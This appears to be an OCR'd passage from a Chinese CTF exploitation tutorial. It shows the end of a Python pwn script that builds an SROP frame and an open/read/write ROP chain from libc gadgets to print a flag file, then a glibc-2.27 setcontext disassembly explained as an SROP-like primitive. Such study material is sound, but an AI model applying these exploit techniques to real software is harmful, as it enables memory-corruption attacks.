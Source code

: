 ```python
frame.rdx=0x200
frame.rsi=stack
frame.rdi=0
frame.rip=r

sla('message:',bytes(frame)[8:])

pop_rdi=libcbase+0x000000000002679e
pop_rsi=libcbase+0x00000000000288df
pop_rdx=libcbase+0x00000000000cb28d

pd=p64(pop_rdi)+p64(stack+0x100)+p64(pop_rsi)+p64(2)+p64(o)
pd+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(stack+0x100)+p64(pop_rdx)+p64(0x100)+p64(r)
pd+=p64(pop_rdi)+p64(stack+0x100)+p64(w)
time.sleep(0.5)
sl(pd.ljust(0x100,b'\x00')+b'./flag\x00')


ia()
```



### 利用set_context

#### glibc-2.29以下

在glibc-2.27下，set_context函数汇编代码如下，其中存在一段通过rdi来给各种寄存器赋值的指令，可以造成类似于SROP这样的利用

```
   0x7f638914d070 <setcontext>: push   rdi
   0x7f638914d071 <setcontext+1>:       lea    rsi,[rdi+0x128]
   0x7f638914d078 <setcontext+8>:       xor    edx,edx
   0x7f638914d07a <setcontext+10>:      mov    edi,0x2
   0x7f638914d07f <setcontext+15>:      mov    r10d,0x8
   0x7f638914d085 <setcontext+21>:      mov    eax,0xe
   0x7f638914d08a <setcontext+26>:      syscall 
   0x7f638914d08c <setcontext+28>:      pop    rdi
   0x7f638914d08d <setcontext+29>:      cmp    rax,0xfffffffffffff001
   0x7f638914d093 <setcontext+35>:      jae    0x7f638914d0f0 <setcontext+128>
   0x7f638914d095 <setcontext+37>:      mov    rcx,QWORD PTR [rdi+0xe0]
   0x7f638914d09c <setcontext+44>:      fldenv [rcx]
   0x7f638914d09e <setcontext+46>:      ldmxcsr DWORD PTR [rdi+0x1c0]
   0x7f638914d0a5 <setcontext+53>:      mov    rsp,QWORD PTR [rdi+0xa0]
   0x7f638914d0ac <setcontext+60>:      mov    rbx,QWORD PTR [rdi+0x80]
   0x7f638914d0b3 <setcontext+67>:      mov    rbp,QWORD PTR [rdi+0x78]
   0x7f638914d0b7 <setcontext+71>:      mov    r12,QWORD PTR [rdi+0x48]
   0x7f638914d0bb <setcontext+75>:      mov    r13,QWORD PTR [rdi+0x50]
   0x7f638914d0bf <setcontext+79>:      mov    r14,QWORD PTR [rdi+0x58]
   0x7f638914d0c3 <setcontext+83>:      mov    r15,QWORD PTR [rdi+0x60]
   0x7f638914d0c7 <setcontext+87>:      mov    rcx,QWORD PTR [rdi+0xa8]
   0x7f638914d0ce <setcontext+94>:      push   rcx
   0x7f638914d0cf <setcontext+95>:      mov    rsi,QWORD PTR [rdi+0x70]
   0x7f638914d0d3 <setcontext+99>:      mov    rdx,QWORD PTR [rdi+0x88]
   0x7f638914d0da <setcontext+106>:     mov    rcx,QWORD PTR [rdi+0x98]
   0x7f638914d0e1 <setcontext+113>:     mov    r8,QWORD PTR [rdi+0x28]
   0x7f638914d0e5 <setcontext+117>:     mov    r9,QWORD PTR [rdi+0x30]
   0x7f638914d0e9 <setcontext+121>:     mov    rdi,QWORD PTR [rdi+0x68]
   0x7f638914d0ed <setcontext+125>:     xor    eax,eax
   0x7f638914d0ef <setcontext+127>:     ret    
   0x7f638914d0f0 <setcontext+128>:     mov    rcx,QWORD PTR [rip+0x398d71]
   0x7f638914d0f7 <setcontext+135>:     neg    eax
   0x7f638914d0f9 <setcontext+137>:     mov    DWORD PTR fs:[rcx],eax
   0x7f638914d0fc <setcontext+140>:     or     rax,0xffffffffffffffff
   0x7f638914d100 <setcontext+144>:     ret
```